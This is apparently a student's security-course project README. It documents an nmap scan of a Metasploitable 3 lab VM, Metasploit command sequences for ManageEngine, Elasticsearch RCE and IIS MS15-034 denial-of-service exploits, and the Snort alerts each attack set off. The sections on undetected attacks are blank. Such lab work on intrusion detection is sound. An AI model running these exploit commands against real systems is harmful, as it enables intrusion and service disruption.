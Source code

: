 # Cyber Security Base - Course Project II
[https://cybersecuritybase.github.io](https://cybersecuritybase.github.io)

## Setup
* [Kali Linux](https://www.kali.org/)
* [Metasploitable 3](https://github.com/rapid7/metasploitable3) with its requirements
* [Snort](https://www.snort.org/) installed on the Kali
* [Metasploit Community](https://www.rapid7.com/products/metasploit/download/)

## Initial scan
Target ip in all cases: 172.28.128.3.
### Using Metasploit Framework
Command: `nmap -v -sV 172.28.128.3 -oA subnet_1`
#### Results
Nmap scan report for 172.28.128.3
Host is up (0.00022s latency).
Not shown: 989 filtered ports
PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      Microsoft ftpd
22/tcp    open  ssh      OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http     Microsoft IIS httpd 7.5
3000/tcp  open  http     WEBrick httpd 1.3.1 (Ruby 2.3.1 (2016-04-26))
4848/tcp  open  ssl/http Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
8022/tcp  open  http     Apache Tomcat/Coyote JSP engine 1.1
8080/tcp  open  http     Sun GlassFish Open Source Edition  4.0
8383/tcp  open  ssl/http Apache httpd
9200/tcp  open  http     Elasticsearch REST API 1.1.1 (name: Fantastic Four; Lucene 4.7)
49153/tcp open  msrpc    Microsoft Windows RPC
49154/tcp open  msrpc    Microsoft Windows RPC
MAC Address: 08:00:27:B3:15:40 (Oracle VirtualBox virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

## Three attacks that Snort identifies
### ManageEngine - CVE-2015-8249
#### Commands in the msf
     use exploit/windows/http/manageengine_connectionid_write
     set rhost 172.28.128.3
     exploit

#### Results in the Snort alert log
##### SID 34716 enabled
[**] [1:34716:3] SERVER-WEBAPP ManageEngine Desktop Central FileUploadServlet directory traversal attempt [**]
[Classification: Web Application Attack] [Priority: 1] 
04/09-18:44:37.158501 0A:00:27:00:00:00 -> 08:00:27:B3:15:40 type:0x800 len:0x4422
172.28.128.1:38083 -> 172.28.128.3:8020 TCP TTL:128 TOS:0x0 ID:9200 IpLen:20 DgmLen:17428 DF
***A**** Seq: 0xA630394  Ack: 0xFDB044A7  Win: 0xE200  TcpLen: 32
[Xref => http://osvdb.org/show/osvdb/121816][Xref => http://cve.mitre.org/cgi-bin/cvename.cgi?name=2015-8249]

### ElasticSearch - CVE-2014-3120
#### Commands in the msf
     use exploit/multi/elasticsearch/script_mvel_rce
     set rhost 172.28.128.3
     exploit
    
#### Results in the Snort alert log
##### SIDs 36256 and 33830 enabled
[**] [1:36256:1] SERVER-OTHER ElasticSearch information disclosure attempt [**]
[Classification: Potential Corporate Privacy Violation] [Priority: 1] 
04/09-19:49:07.741894 0A:00:27:00:00:00 -> 08:00:27:B3:15:40 type:0x800 len:0x189
172.28.128.1:46517 -> 172.28.128.3:9200 TCP TTL:64 TOS:0x0 ID:10371 IpLen:20 DgmLen:379 DF
***AP*** Seq: 0x7871FD5A  Ack: 0x603FC539  Win: 0xE5  TcpLen: 32
TCP Options (3) => NOP NOP TS: 9491928 1410943 
[Xref => http://bouk.co/blog/elasticsearch-rce/][Xref => http://cve.mitre.org/cgi-bin/cvename.cgi?name=2014-3120]

[**] [1:36256:1] SERVER-OTHER ElasticSearch information disclosure attempt [**]
[Classification: Potential Corporate Privacy Violation] [Priority: 1] 
04/09-19:49:08.669252 0A:00:27:00:00:00 -> 08:00:27:B3:15:40 type:0x800 len:0x181
172.28.128.1:46523 -> 172.28.128.3:9200 TCP TTL:64 TOS:0x0 ID:22709 IpLen:20 DgmLen:371 DF
***AP*** Seq: 0xEBB68E74  Ack: 0x5E61650E  Win: 0xE5  TcpLen: 32
TCP Options (3) => NOP NOP TS: 9492160 1411036 
[Xref => http://bouk.co/blog/elasticsearch-rce/][Xref => http://cve.mitre.org/cgi-bin/cvename.cgi?name=2014-3120]

[**] [1:36256:1] SERVER-OTHER ElasticSearch information disclosure attempt [**]
[Classification: Potential Corporate Privacy Violation] [Priority: 1] 
04/09-19:49:08.697926 0A:00:27:00:00:00 -> 08:00:27:B3:15:40 type:0x800 len:0x189
172.28.128.1:45915 -> 172.28.128.3:9200 TCP TTL:64 TOS:0x0 ID:42194 IpLen:20 DgmLen:379 DF
***AP*** Seq: 0xDF957218  Ack: 0x7B51DA0A  Win: 0xE5  TcpLen: 32
TCP Options (3) => NOP NOP TS: 9492167 1411039 
[Xref => http://bouk.co/blog/elasticsearch-rce/][Xref => http://cve.mitre.org/cgi-bin/cvename.cgi?name=2014-3120]

[**] [1:33830:2] SERVER-OTHER ElasticSearch script remote code execution attempt [**]
[Classification: Attempted User Privilege Gain] [Priority: 1] 
04/09-19:49:08.721584 0A:00:27:00:00:00 -> 08:00:27:B3:15:40 type:0x800 len:0x5EA
172.28.128.1:33297 -> 172.28.128.3:9200 TCP TTL:64 TOS:0x0 ID:54254 IpLen:20 DgmLen:1500 DF
***A**** Seq: 0x2AAC0522  Ack: 0x9E85494E  Win: 0xE5  TcpLen: 32
TCP Options (3) => NOP NOP TS: 9492173 1411042 
[Xref => http://bouk.co/blog/elasticsearch-rce/][Xref => http://cve.mitre.org/cgi-bin/cvename.cgi?name=2014-3120]

### IIS - HTTP - CVE-2015-1635
#### Commands in the msf
     use auxiliary/dos/http/ms15_034_ulonglongadd
     set rhost 172.28.128.3
     exploit

#### Results in the Snort alert log
##### SID 34061 enabled
[**] [1:34061:3] SERVER-IIS Microsoft IIS Range header integer overflow attempt [**]
[Classification: Attempted Denial of Service] [Priority: 2] 
04/09-22:05:31.382374 0A:00:27:00:00:00 -> 08:00:27:B3:15:40 type:0x800 len:0xD8
172.28.128.1:36419 -> 172.28.128.3:80 TCP TTL:128 TOS:0x0 ID:1364 IpLen:20 DgmLen:202 DF
***AP*** Seq: 0x7EEE4D57  Ack: 0x1FAA7483  Win: 0x400  TcpLen: 32
[Xref => http://technet.microsoft.com/en-us/security/bulletin/ms15-034][Xref => http://cve.mitre.org/cgi-bin/cvename.cgi?name=2015-1635][Xref => http://www.securityfocus.com/bid/74013]

## Two attacks that Snort doesn't identify
### 1
### 2

## Is it easier to fix the application than to detect attacks?